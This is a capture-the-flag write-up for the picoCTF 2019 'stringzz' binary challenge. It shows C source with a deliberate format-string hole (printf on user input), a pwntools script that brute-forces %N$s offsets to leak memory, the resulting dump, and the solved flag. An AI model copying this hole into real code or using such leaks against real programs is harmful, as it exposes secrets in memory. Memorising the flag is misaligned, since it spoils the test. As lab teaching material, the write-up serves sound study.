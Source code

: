 # stringzz (Binary)

![title](images/title.png)

<details>
	<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);
 
}
```
</details>

Looks like some functions to put "Now your input will be printed:\n" followed by a vulnerable printf that we can exploit using a format string attack

Lets start with some %x testing:

```
~/ctfwriteups/pico2019/binary/stringzz# ./vuln
input whatever string you want; then it will be printed back:

%x %x %x %x
Now 
your input 
will be printed:

a 4 5658e6f9 f7f4b000
~/ctfwriteups/pico2019/binary/stringzz# 
```

Definitely vulnerable and dumping memory

I decided to be lazy and see if we could brute force it with a simple python script

<details>
	<summary>Python Script</summary>

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

for i in range(1000):
	p = process('./vuln')
	p.recv()
	try:
		p.sendline('%'+str(i)+'$s')
		p.recvuntil('\n\n')
		print (p.recv(), i)
		p.close()
	except:
		p.close()
</details>
```

<details>
	<summary>Data output</summary>

```
('%0$s\n', 0)
('\x81\xc3\xbb\x18\n', 3)
('l\x9d\x1d\n', 4)
('\xbc\x1e\n', 5)
("\x98\xeb\x9f\xff\x8e']Vp\x152X\x93)]V\x01\n", 6)
('\x83\xc4\x10\x90\x8b]\xfc\xc9\xc3U\x89\xe5S\x83\xec\x04\xe8\x1a\x01\n', 7)
('%8$s\n', 8)
('flag.txt\n', 9)
('r\n', 10)
('\x05\x83\x18\n', 11)
('l\x9d\x1d\n', 12)
('\xbc\x1e\n', 13)
('8\x0c\x96\xffM\xd8cVp\x95\x8aV\x80\n', 14)
('\x83\xc4\x10\x90\x8b]\xfc\xc9\xc3\x8dL$\x04\x83\xe4\xf0\xffq\xfcU\x89\xe5SQ\x83\xec0\xe8B\xfe\xff\xff\x81\xc3\x06\x18\n', 15)
('%16$s\n', 16)
('r\n', 17)
('\x05J\x18\n', 19)
('l\x9d\x1d\n', 20)
('\xbc\x1e\n', 21)
('\n', 22)
('\x83\xc4\x10\x8b\x83@\n', 23)
('%24$s\n', 24)
('\x88$\xad\xfb\xfa\xa7\xfdV\xfa\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xa7\xfdV\xf0\xb7\xfdV\n', 26)
('\x81\xc3\x06\x18\n', 27)
('l\x9d\x1d\n', 28)
('l\x9d\x1d\n', 29)
('(null)\n', 30)
('\x88\xa5\xba\xff\n', 31)
('\n', 32)
('\xbc\x1e\n', 33)
('\x8fe\xda\xff\xa3e\xda\xff\xd3e\xda\xff\xece\xda\xff\x01f\xda\xff\x0ef\xda\xff\x1df\xda\xff_f\xda\xffjf\xda\xffuf\xda\xff\x82f\xda\xff\x94f\xda\xff\xb9f\xda\xff\xcdf\xda\xff\xddf\xda\xff\x17g\xda\xff4g\xda\xff\x82g\xda\xff\x8ag\xda\xff\x9eg\xda\xff\xb1g\xda\xff\xc3g\xda\xff\xd8g\xda\xff\xefg\xda\xff\n', 34)
('%36$s\n', 36)
('fuck yeah\n', 37)
('\x88$\xad\xfb\xfaw%X\xfaw%X\xf0w%X\xf0w%X\xf0w%X\xf0w%X\xf0w%X\xf0\x87%X\n', 38)
('\x01\n', 40)
('(null)\n', 41)
('(null)\n', 42)
('\x83\xc4\x10\x83\xec\x0cP\xe8\x13o\x01\n', 43)
('l\x9d\x1d\n', 44)
('l\x9d\x1d\n', 45)
('(null)\n', 46)
('\x83\xc4\x10\x83\xec\x0cP\xe8\x13o\x01\n', 47)
('\x88%\xbf\xff\n', 49)
('\x8f5\xa8\xff\xa35\xa8\xff\xd35\xa8\xff\xec5\xa8\xff\x016\xa8\xff\x0e6\xa8\xff\x1d6\xa8\xff_6\xa8\xffj6\xa8\xffu6\xa8\xff\x826\xa8\xff\x946\xa8\xff\xb96\xa8\xff\xcd6\xa8\xff\xdd6\xa8\xff\x177\xa8\xff47\xa8\xff\x827\xa8\xff\x8a7\xa8\xff\x9e7\xa8\xff\xb17\xa8\xff\xc37\xa8\xff\xd87\xa8\xff\xef7\xa8\xff\n', 50)
```
</details>

Looks like our flag is the 37th spot in memory so %37$s SHOULD give us our flag on the local server, lets give it a shot

<details>
	<summary>Flag</summary>

picoCTF{str1nG_CH3353_0814bc7c}
</details>